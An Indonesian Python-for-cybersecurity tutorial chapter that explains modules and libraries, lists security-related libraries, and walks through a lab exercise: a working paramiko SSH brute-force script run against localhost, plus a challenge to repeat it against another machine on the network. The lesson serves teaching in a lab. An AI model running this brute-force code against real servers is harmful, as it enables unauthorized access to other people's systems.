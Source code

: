 # Modules dan Libraries

*Basic Python for Cybersecurity*

*© 2025 Yogi Agnia Dwi Saputro dan PT. Cyberkarta Tugu Teknologi.*

Dilarang keras memperbanyak, menyalin, mendistribusikan, atau menggunakan sebagian atau seluruh isi karya ini dalam bentuk apapun tanpa izin tertulis dari pemegang hak cipta.

------------------------------------

## Definisi
- **Module**: satu file (.py) yang berisi  variable, function, atau class yang bisa digunakan ulang.
- **Library**: Sekumpulan module yang dirangkai untuk menjalankan komputasi di domain spesifik.

## Sumber Library
- **Modul Internal**: langsung didapat ketika instalasi Python. Misal: `os`, `sys`, `datetime`, `math`
- **Modul Eksternal**: didapat dari repository resmi Python, [PyPI](https://pypi.org/)

## Penggunaan Library

### Modul Internal
```python
# import seluruh modul
import math
print(math.sqrt(25))  # Output: 5.0

# import sebagian modul
from math import sqrt
print(sqrt(25))       # Output: 5.0
```

### Modul Eksternal

- Direkomendasikan untuk setup virtual environment dahulu
- Install library
```
pip install paramiko
```
- Import library
```python
# import dengan nama agar ringkas
import paramiko as pko
```

## Library Umum Terkait Cybersecurity
| Library          | Use Case                                   |
| ---------------- | ------------------------------------------ |
| `socket`         | Networking, port scanning, fetch banner |
| `scapy`          | Packet crafting, sniffing                  |
| `paramiko`       | SSH automation & testing                   |
| `nmap`           | Manipulasi Nmap Python          |
| `requests`       | melakukan HTTP request (login, API, dll)       |
| `shodan`         | Search engine device terkoneksi internet          |
| `pycryptodome`   | Encryption, hashing                        |
| `beautifulsoup4` | HTML parsing, scraping                     |

Masih ada banyak lagi. Lakukan eksplorasi dan silakan baca berbagai artikel.

## Praktik: SSH Brute Force dengan Paramiko

SSH adalah suatu mekanisme koneksi dari suatu komputer untuk terhubung ke server. Anggaplah SSH sebagai pintu gerbang dari sebuah benteng. Selayaknya pintu gerbang utama, SSH harus memiliki pertahanan yang kuat. Dalam cybersecurity, hal itu berarti minimal password yang aman beserta mekanisme lainnya.
Jika password SSH tidak aman (password pendek, sederhana, mudah ditebak, atau password bocor), seseorang dapat melakukan serangan brute force untuk mendapatkan akses.
Di sini, kamu akan melakukan simulasi serangan SSH brute force menggunakan program Python dilengkapi library `paramiko`.

Langkah-langkah
1. Setup SSH di localhost
2. Setup credential di localhost (catat kombinasi username-password nya) - optional (bisa pakai user existing)
3. Buat program di Python
4. Jalankan program Python

**Setup SSH di localhost**

- Instalasi openSSH
```
sudo apt update
sudo apt install openssh-server -y
```

- Jalankan service `ssh` di background
```
sudo service ssh start
```

- Cek service `ssh`
```
sudo service ssh status
```

**Buat program di Python**

```python
# ssh_brute_force.py
import paramiko

# taruh list credentials di sini. tambahkan jika perlu
credentials = [
    ("admin", "toor"),
    ("root", "root123"),
    ("user", "123456"),
    # user kali yang berhasil, dengan asumsi memakai Kali Linux
    ("kali","kali") 

]

# kita setup untuk attack SSH di localhost
target_ip = "127.0.0.1"

ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

for username, password in credentials:
    try:
        print(f"🔄 Trying {username}:{password} ...")
        ssh.connect(target_ip, username=username, password=password, timeout=5)
        print(f"✅ Login success with {username}:{password}!")
        
        # ekspektasi masuk dan dan tampilkan informasi
        stdin, stdout, stderr = ssh.exec_command("whoami")
        print("📟 Server says:", stdout.read().decode().strip())
        
        ssh.close()
        break  # Stop after first success

    except paramiko.AuthenticationException:
        print("❌ Login failed.")
    except Exception as e:
        print("⚠️ Error:", str(e))
```

**Jalankan Program Python**

```
python3 ssh_brute_force.py
```

## _Extra Challenge_
- Coba buat program sederhana untuk minimal 3 library terkait cybersecurity
- Coba setup SSH di komputer lain dalam satu jaringan, lalu jalankan kembali SSH brute force

## Referensi
- Top installed cybersecurity module: https://www.geeksforgeeks.org/top-10-python-libraries-for-cybersecurity/

